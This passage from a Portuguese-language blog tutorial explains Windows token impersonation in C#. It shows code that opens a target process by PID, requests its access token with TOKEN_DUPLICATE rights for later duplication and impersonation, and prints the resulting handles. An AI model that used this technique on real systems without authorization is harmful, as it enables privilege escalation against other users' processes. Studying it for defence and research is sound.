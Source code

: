 Como visto no primeiro argumento da API, `dwDesiredAccess` simboliza o nível de permissão que o handle aberto terá. A permissão mínima para o handle inicial necessária para o ataque é `PROCESS_QUERY_LIMITED_INFORMATION²`, conforme dita na documentação da Microsoft.

![Desktop View](https://blackmetal2000.github.io/assets/img/tokens/imagem1.png)
```csharp
IntPtr hProcess = Impersonate.PInvokes.OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, false, 4404); // 4404 = pid
if (hProcess == IntPtr.Zero)
{
	Console.WriteLine($"OpenProcess ERROR: {Marshal.GetLastWin32Error()}");
	Environment.Exit(0);
}

Console.WriteLine($"[+] (OpenProcess) Initial Handle: 0x{hProcess.ToString("X")}");
Impersonate.PInvokes.CloseHandle(hProcess);
```

>`PROCESS_QUERY_LIMITED_INFORMATION²`: permissão utilizada para descobrir certas informações limitadas sobre um processo.
{: .prompt-info }

## OpenProcessToken

O próximo passo é obter o token do processo representado pelo handle recém-aberto. É este token que será, futuramente, duplicado e impersonificado.

```csharp
[DllImport("advapi32.dll", SetLastError=true)]
[return: MarshalAs(UnmanagedType.Bool)]
public static extern bool OpenProcessToken(
	IntPtr ProcessHandle, // handle do processo alvo.
	UInt32 DesiredAccess, // nível de acesso do token.
	out IntPtr TokenHandle // o resultado da API, o token.
);
```

Como visto, é solicitado um nível de acesso representado pelo `DesiredAccess`, similarmente ao que ocorre na abertura do handle com o `OpenProcess`. Neste caso, o único privilégio necessário para atribuirmos ao handle do token seria o de `TOKEN_DUPLICATE³`. Estes privilégios estão representados [nesta documentação](https://learn.microsoft.com/pt-br/windows/win32/secauthz/access-rights-for-access-token-objects).

![Desktop View](https://blackmetal2000.github.io/assets/img/tokens/imagem2.png)

```csharp
bool result = Impersonate.PInvokes.OpenProcessToken(hProcess, TOKEN_DUPLICATE, out IntPtr hToken);

if (result == false)
{
	Console.WriteLine($"OpenProcessToken ERROR: {Marshal.GetLastWin32Error()}");
	Environment.Exit(0);
}

Console.WriteLine($"[+] (OpenProcessToken) Token Handle: 0x{hToken.ToString("X")}");
```
